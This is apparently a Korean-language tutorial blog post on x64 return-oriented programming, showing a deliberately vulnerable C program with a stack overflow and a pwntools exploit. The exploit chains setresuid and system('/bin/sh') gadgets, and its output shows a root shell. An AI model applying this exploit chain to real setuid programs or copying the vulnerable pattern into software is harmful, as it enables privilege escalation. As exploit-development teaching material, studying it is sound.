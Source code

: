 ```yaml
---
layout: post
title: "x64 Return Oriented Programming"
categories: Exploit Stack
---
```


ROP를 통해 메모리 영역 할당(mmap)하거나 할당된 메모리 영역의 권한을 변경(mprotect)하여 공격하는 방법.  

x64의 경우 호출 규약 때문에 피연산자가 매우 중요함.  

x64의 ROP에서 POP 명령의 역할  
1. ESP의 레지스터 값을 증가시켜 함수를 연속적으로 호출
1. 호출할 함수에 전달될 인자 값을 레지스터에 저장

Ex) 
호출할 함수의 1 번째 인자 값 저장: "pop rdi; ret"  
호출할 함수의 2 번째 인자 값 저장: "pop rsi; ret"  
호출할 함수의 1,3 번째 인자 값 저장: "pop rdi; pop rdx; ret"

## **Proof of Concept**

```c
// Vuln Code
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
 
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}
 
void main(){
    seteuid(getuid());
    write(1,"Hello ROP\n",10);
    vuln();
}
```

"A"*72 입력 시 Overflow 발생.

```
gdb-peda$ x/24gx $rbp
0x7fffffffe3c0:	0x4141414141414141	0x000000000040070a
0x7fffffffe3d0:	0x00000000004007e0	0x00007ffff7829830
0x7fffffffe3e0:	0x0000000000000000	0x00007fffffffe4b8
```

## **Exploit Code**
```python
# Exploit Code
import sys
from pwn import *

p = process('./rop')
#gdb.attach(p)
print(p.recvline())
printf_addr = int(p.recvline().split(' ')[3],16)
print('printf_addr: '+str(printf_addr))

libBase = printf_addr - 0x55800
system = libBase + 0x45390
setresuid = libBase + 0xcd570
binsh = libBase + 0x18cd57
pop_rdi_ret = 0x00400843
pop_rsi_ret = 0x00400841
pop_rdx_pop_rsi_ret_offset = 0x1150c9

payload = "A"*72
payload += p64(pop_rdi_ret)
payload += p64(0)
payload += p64(libBase + pop_rdx_pop_rsi_ret_offset)
payload += p64(0)
payload += p64(0)
payload += p64(setresuid)
payload += p64(pop_rdi_ret)
payload += p64(binsh)
payload += p64(system)

p.sendline(payload)
p.interactive()
```

## **Exploit**
```shell
pwner@bs-virtual-machine:~$ python exploit.py 
[+] Starting local process './rop': pid 3166
Hello ROP

printf_addr: 140605686425600
[*] Switching to interactive mode
$ id
uid=0(root) gid=1001(pwner) groups=1001(pwner)
```

**Refereces**  
[https://lazenca.net/display/TEC/02.ROP%28Return+Oriented+Programming%29-x64](https://lazenca.net/display/TEC/02.ROP%28Return+Oriented+Programming%29-x64)

